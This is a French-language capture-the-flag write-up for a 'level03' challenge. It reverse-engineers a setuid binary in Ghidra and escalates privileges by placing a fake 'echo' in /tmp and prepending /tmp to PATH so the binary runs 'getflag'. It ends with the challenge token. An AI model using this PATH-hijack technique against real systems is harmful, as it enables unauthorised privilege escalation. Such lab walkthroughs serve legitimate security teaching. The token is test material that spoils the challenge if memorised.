 
ls -la

nous avons un executable

qui si on le lance nous ecrit exploit me 

donc nous allons l'exploit 

pareil que dans l'exo precedant metter le sur votre linux car nous allons devoir utiliser le logiciel GHIDRA

scp level03 vmuller@192.168.1.21:/home/vmuller

install ghidra si vous ne l'avez pas

lancer le ./ghidraRun

cliquer sur la tete de dragon "CodeBrowser"

une fois fait gliser votre executable a l'interieur 

nous avons du code en asm

on vas desasembler le code pour voir ce quil fait 

(ou pour voir le code en c = ctrl + e sur le main)

pour ca clic droit sur le main: desassemble

nous pouvon voir cette phrase 

"/usr/bin/env echo Exploit me"

et cette phrase juste en dessous

CALL       <EXTERNAL>::system                               undefined system()

ca veux dire que le programme fait un appel systheme a une et fait cette commade : "/usr/bin/env echo Exploit me"

c'est genial ca car ils utilisent le env pour pouvoir utiliser echo 

nous pouvons donc rediriger le env vers une autre commande echo que nous avons coder nous meme 

pour ce faire direction le tmp car c'est le seul endrois ou nous pouvons créer des fichier 

cd /tmp

echo whoami > echo

noublier pas de donner les permition au nouveau echo

pour l'instant nous voulons voir quel drois a le programme level03

changer le PATH

export PATH=/tmp:$PATH

comme ca le path sera toujours accesible mais le /tmp sera priviliger

cd 

./level03

et oh tien il a appartien au groupe flag03

on vas donc ganger notre echo pour lui donner une meilleur commande 

cd /tmp

echo getflag > echo

cd 

./level03

merci pour le token !

Check flag.Here is your token : qi0maab88jeaj46qoumi7maus